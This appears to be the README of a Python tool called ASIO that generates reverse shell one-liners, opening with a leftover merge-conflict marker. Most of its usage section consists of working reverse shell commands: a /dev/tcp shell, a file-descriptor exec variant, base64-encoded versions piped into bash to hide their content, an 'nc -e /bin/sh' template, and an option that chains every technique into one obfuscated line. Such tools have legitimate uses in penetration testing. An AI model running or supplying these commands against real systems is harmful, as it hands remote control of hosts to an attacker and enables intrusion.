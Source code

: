 <<<<<<< HEAD
# ASIO
## Description
ASIO (All Shell In One) is a tool written in Python3 that generates reverse shells. It has the ability to **cast a one liner that uses all the available reverse shell teqniques**

## Usage
```
usage: asio.py [-h] -H HOST -P PORT [-A] [-B]

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Hostname or IP of the server
  -P PORT, --port PORT  Port of the server
  -A, --all             Use this argument to generate a full one liner to try all the reverse shell possible.
  -B, --base64          Encode all the reverse shells in base64 and build a one liner to execute the decoded string
```
## Examples

### Generate multiple reverse shells
Command:
```
./asio.py -H 127.0.0.1 -P 8080
```
Output:
```
 sh in dev tcp 
 sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

 exec sh in dev tcp 
 0<&196;exec 196<>/dev/tcp/127.0.0.1/8080; sh <&196 >&196 2>&196
 ```

### Generate multiple reverse shells encoded in base64
Command:
```
./asio.py -H 127.0.0.1 -P 8080 -B
```
Output:
```
 sh in dev tcp 
echo "IHNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84MDgwIDA+JjE=" | base64 -d | bash

exec sh in dev tcp 
echo "IDA8JjE5NjtleGVjIDE5Njw+L2Rldi90Y3AvMTI3LjAuMC4xLzgwODA7IHNoIDwmMTk2ID4mMTk2IDI+JjE5Ng==" | base64 -d | bash
```

### Generate one liner with all the available teqniques encoded in base64
Command:
```
./asio.py -H 127.0.0.1 -P 8080 -B -A
```
Output:
```
 All in one
echo "KCBzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjE<more base64>" | base64 -d | bash
```


## Add presonalized reverse shells
 - Edit the `personal_shells.txt` file
 - Use the following syntaxt: `Name of the Revere Shell | Reverse Shell Code`
 - Use `{HOST}` and `{PORT}` as a placeholders for address and port variables.

### Example
`sh in dev tcp | sh -i >& /dev/tcp/{HOST}/{PORT} 0>&1`

`netcat -e | nc -e /bin/sh {HOST} {PORT}`
